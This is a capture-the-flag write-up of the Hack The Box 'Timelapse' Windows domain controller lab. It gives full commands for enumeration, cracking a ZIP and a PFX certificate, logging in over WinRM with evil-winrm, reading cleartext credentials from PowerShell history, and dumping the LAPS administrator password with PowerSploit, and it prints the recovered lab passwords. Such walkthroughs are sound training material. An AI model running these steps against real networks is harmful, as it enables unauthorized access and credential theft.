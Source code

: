 # Timelapse Machine

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command ```sudo nmap -Pn -p- --min-rate 1000 -v timelapse.htb```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/9306bd81-6e7e-4e56-90ae-73367c7f810e)

Once the open ports are known, I began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: ```sudo nmap -sS -sV -O -p53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49673,49674,64088 --min-rate 1000 -oN timelapseServiceVersions timelapse.htb```


![image](https://github.com/0xCOrS/WriteUps/assets/97627828/73645148-c9f9-402c-8983-dd6849c76d04)

### DNS Enumeration
As port 53 is open, I will try to enumerate subdomains and DNS related information.
Using dig tool I try to recover any entry with ```dig any timelapse.htb @10.10.11.152```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/99177a6a-8c9e-4d76-b70b-30eb42be896e)

As it is shown on the picture, a new subdomain appears (dc01.timelapse.htb) which seems to be an Active Directory Domain Controller.

### LDAP Enumeration

Using python console, I will try to manually obtain LDAP useful information as the naming con-text. 

```

$$ server = ldap3.Server('10.10.11.152', get_info = ldap3.ALL, port = 389, use_ssl = False)      
$$ connection = ldap3.Connection(server)      
$$ connection.bind()
>>True                                                                                                                
$$ server.info

```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/6e1c0c7b-8409-474b-8e65-e89b203b63bd)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/80c4b8fa-ed9f-42d5-a697-fabe4bcb6702)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/4f3f8bbe-f81c-497c-a9e9-9d834794aff7)

As intended, naming context was obtained being the default naming context: “DC=timelapse, DC=htb”. However, naming context is not the only piece of information recovered. It was also known the server time (useful for requesting Kerberos Tickets), and the LDAP name of the Domain Controller ```CN=DC01, CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=timelapse,DC=htb```

### SMB Enumeration

“Crackmapexec” tool will allow to check whether there are publicly accessible shares or aren’t. With this goal, command ```crackmapexec smb timelapse.htb -d timelapse.htb -u 'test' -p '' –shares``` will show (if possible) shared folders and which permissions does “test” user have on each one (during the tests it was learnt that null sessions are also available on this machine). 

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/04d93ec4-8611-4213-8038-85448355a15f)

As seen in the previous picture, an interesting share called “Share” has been listed. User test has read access in this share.
Next step is to try and spider the share using as pattern “.” This way, almost every file will be listed. In order to do this command ```crackmapexec smb timelapse.htb -d timelapse.htb -u 'test' -p '' --spider Shares --pattern . ```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/7cf07d0b-9324-4c68-9dba-5fa9a9378ae1)

Interesting files have appeared. In order to retrieve the files and have a better interaction with the target SMB, “smbclient” tool will be used. As null sessions are allowed, command used will be ```smbclient \\\\10.10.11.152\\Shares```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/42827fc6-2e79-4586-ba94-5d052a1ae38c)

To download everything easier recurse mode is activated using “recurse” smb command. After that both folders are downloaded using ```mget <folder-name>” command```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/495fd680-e6dd-4148-89d2-ce7bda681ab8)

Inspecting the recently downloaded files, one of them stands out because of the name “winrm_backup.zip” and because it contains a “.PFX” certificate file. When trying to unzip it, it is learnt that it is password-protected. To break the protection next steps were followed:

1. Extract the hash of the password using ```zip2john winrm*```

2. Export the hash to a file called “hash.txt” (only the string between $pkzip$ and $/pkzip$ as it is the format that hashcat uses).

3. Perform dictionary attack using hashcat with command ```.\hashcat -m 17200 -a 0 hash.txt rockyou.txt```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/283df843-6aa5-4e3d-a4b5-fd4a0b1adc88)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/f049f4ba-3f61-4c7e-b11a-6e897634caae)

As seen in the picture, ZIP password was recovered, and it is “supremelegacy”. 

After extracting the file inside the ZIP “legacy_dev_auth.pfx” it is known that it is also password-protected.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/a023b07c-f783-44ee-8c24-aa7c2d2e5770)

## Initial Access - Insecure Credentials

**Vulnerability Explanation**: Among the files found on the publicly accessible SMB shares, a password-protected ZIP file was found containing an also password-protected “.PFX” certificate file. Both passwords were found with a dictionary and performing a dictionary attack.

**Vulnerability Fix**: Avoid using easy passwords.

**Severity**: Critical

**Steps to reproduce the attack**: 

1.	Donwload the pfx file password cracking from github “https://github.com/crackpkcs12/crackpkcs12”

2.	Launch the dictionary attack using ```crackpkcs12 -d <dictionary-file> <pfx-file> -t <num-ber-of-threads>```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/f3015451-3172-4e86-9c02-964010ed8af6)

3.	Using the password, extract the private key file and certificate from the pfx file using following two commands:

```

openssl pkcs12 -in ../lega*pfx -out timelapse-legacy.cert.pem -clcerts -nokeys
openssl pkcs12 -in ../lega*pfx -out timelapse-legacy.key.pem -nocerts -nodes
	
```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/9acf8b9a-ea05-424e-8cbd-7c41490d3d2c)

4.	Using the recently obtained files, authenticate using ```evil-winrm -i 10.10.11.152 -c Dev/certs/timelapse-legacy.cert.pem -k Dev/certs/timelapse-legacy.key.pem -u legacyy -S```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/ff8e7ade-cb11-4b00-8cec-f3816151712e)

5.	Grab “C.\Users\Legacyy\Desktop\User.txt”

## Post-Exploitation

Once logged in as “legacyy”, exploring the command line history file ```$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt``` cleartext credentials are found for user “svc_deploy”.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/a49f93a9-19b3-4acf-9056-73e194013120)

Using those credentials ```Svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV```, it is possible to log in as “svc_deploy” through winrm.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/01b7061a-f10a-4b1c-8957-7db0c824152a)

## Privilege Escalation - LAPS_Reader Group

**Vulnerability Explanation**: after logging in as svc_deploy with recently found cleartext creden-tials, it is found that this user is a member of the LAPS_reader group. Members of this group are allowed to access the Local Administrator password from the “ms-mcs-admpwd” attribute of computer’s domain object.

**Vulnerability Fix**: securely store credentials.

**Severity**: Critical

**Steps to reproduce the attack**: after logging in as a “LAPS_reader” group member, using cmdlet ```get-domaincomputer``` from “PowerSploit.ps1” (https://github.com/PowerShellMafia/PowerSploit) extract the ms-mcs-admpwd with the following command ```get-domaincomputer | where-object { $_.’ms-mcs-admpwd’ -ne $null } | select-object ms-mcs-admpwd```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/3711ba51-dd53-4914-8cbb-174751a4f8db)

As shown in the previous picture, credentials are recovered ```Yln0l#3M+,705uQP9g(nSq8+```

After that, login as Administrator and grab the flag.













